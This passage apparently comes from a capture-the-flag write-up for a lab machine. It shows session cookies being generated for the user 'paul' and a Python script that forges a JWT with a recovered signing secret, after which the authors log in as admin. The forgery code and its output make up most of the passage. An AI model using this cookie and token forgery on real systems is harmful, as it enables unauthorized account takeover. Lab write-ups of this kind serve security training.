 ```php
makesession("paul");
?>
```

```
$ php cookie.php
paul13908e17855ef656db3e2d5ddc2a1efc
pauld78f5990e1f882f0d9c2fb6947dee56d
paul76af6bfe49dec2b67a6ee399a2e6fbed
paul5a85be61b78600e1e81af105cb377653
```

Next we generate the JWT token with a short python script.

```py
import jwt

encoded_jwt = jwt.encode({"data": {"username" : "paul" } }, "6cb9c1a2786a483ca5e44571dcc5f3bfa298593a6376ad92185c3258acd5591e", algorithm="HS256")
print(encoded_jwt)
```

```
$ python gen_jwt.py 
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjp7InVzZXJuYW1lIjoicGF1bCJ9fQ.7pc5S1P76YsrWhi_gu23bzYLYWxqORkr0WtEz_IUtCU
```

Replacing our cookies with the JWT and the ones for paul we see that one cookie works and we are logged in as admin.

[![logged_paul.png](/img/breadcrumbs/logged_paul.png)](/img/breadcrumbs/logged_paul.png)
